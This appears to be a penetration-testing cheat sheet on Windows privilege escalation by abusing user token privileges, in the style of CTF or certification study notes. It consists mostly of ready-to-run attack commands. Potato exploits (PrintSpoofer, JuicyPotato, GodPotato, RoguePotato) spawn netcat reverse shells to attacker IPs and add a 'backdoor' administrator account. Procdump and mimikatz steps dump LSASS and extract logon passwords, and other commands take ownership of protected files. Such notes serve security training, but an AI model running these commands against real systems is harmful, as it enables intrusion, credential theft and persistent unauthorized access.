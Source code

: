 # ✅ Windows Privilege Escalation – User Privileges 

---

## 🎯 Quick Wins
- [ ] `SeImpersonatePrivilege` / `SeAssignPrimaryTokenPrivilege` → Potato exploit (Juicy, PrintSpoofer)
- [ ] `SeDebugPrivilege` → Dump LSASS or SYSTEM shell
- [ ] `SeTakeOwnershipPrivilege` → Take ownership of sensitive files
- [ ] `SeBackupPrivilege / SeRestorePrivilege` → Copy SAM & SYSTEM files
- [ ] `SeLoadDriverPrivilege` → Load malicious driver
- [ ] `SeSecurityPrivilege` → Access security logs
- [ ] `SeManageVolumeExploit` -> full access to the `C:\`

---
## ✅ Enumeration

```powershell
whoami /priv
whoami /all
```

```c
dir C:\ /a /s | findstr /i "temp programdata"
```

## ✅ SeImpersonate / SeAssignPrimary Token

```c
# Check The Windows Version  & if it's 32 bit or 64 bit
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

#Token Impersonation - PrintSpoofer 
c:\tools\PrintSpoofer.exe -c "c:\Users\chris\tools\nc64.exe ip 21 -e cmd"
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
C:\tools>.\PrintSpoofer.exe -i -c powershell.exe 

# Token Impersonation - JuicyPotato
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Users\chris\Desktop\tools\nc64.exe 192.168.45.171 22 -e cmd.exe" -t *
C:\temp\JuicyPotato.exe -t * -p C:\Users\Public\Documents\sh3ll.exe -l 443

# Token Impersonation - JuicyPotato - Troubleshooting error 
1 . check THe version of the windows
2 . check this website to search of a CLSID https://ohpe.it/juicy-potato/CLSID/
3 . Exploit : C:\temp\JuicyPotato.exe -t * -p C:\temp\shell.exe -l 443 -c "{6d18ad12-bde3-4393-b311-099c346e6df9}" 
1. if it doesn't work try another CLSID

# GodPotato
GodPotato -cmd "cmd /c dir c:\Users\Administrator"
GodPotato-NET2.exe -cmd "cmd /c type c:\Users\damon\DEsktop\proof.txt"
GodPotato -cmd "C:\Users\Public\reverse.exe"

Sometimes the SeImpersonatePrivilege is not the actual intended path so the Godpotato shell will be broken and you will not be able to execute whoami, no output for mimikatz, etc.

GodPotato -cmd "net user /add backdoor Password123" GodPotato -cmd "net localgroup administrators /add Lance"

# RougePotato Exploit
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe ip 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe ip 443 -e cmd" -f 9999

# SharpEfsPotato
> SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"

# EfsPotato
> EfsPotato.exe "whoami"

# non of them working try?
> BadPotato.exe
> Multipotatox64.exe
> SharpEfsPotato.exe
> SigmaPotato.exe
> RogueOxidResolver.exe

# Old Windows ?
.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\users\Public\nc.exe -e cmd.exe 10.10.10.1 8080" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
# Note !!
if it's not working change the '-c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}'
https://github.com/ohpe/juicy-potato/tree/master/CLSID
```

## ✅ SeDebugPrivilege

```c
Note !! : if you have rdp access i can dump the lsass without using procdump

Step1  : Open Task Manager
Step2  : Open Details Page
Step3  : find lsass.exe and press right click
Step4  : Click in Create dump File
```

```c
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

## ✅ SeManageVolumeExploit

[link of the exploit](https://github.com/CsEnox/SeManageVolumeExploit)

```
this exploit will give you a full access to the c:\
```


## ✅ SeTakeOwnershipPrivilege

```c
# Take ownership of file
takeown /f "C:\Sensitive\File.txt"

# Grant full control
icacls "C:\Sensitive\File.txt" /grant user:F

# Read file
type "C:\Sensitive\File.txt"
```
---
---
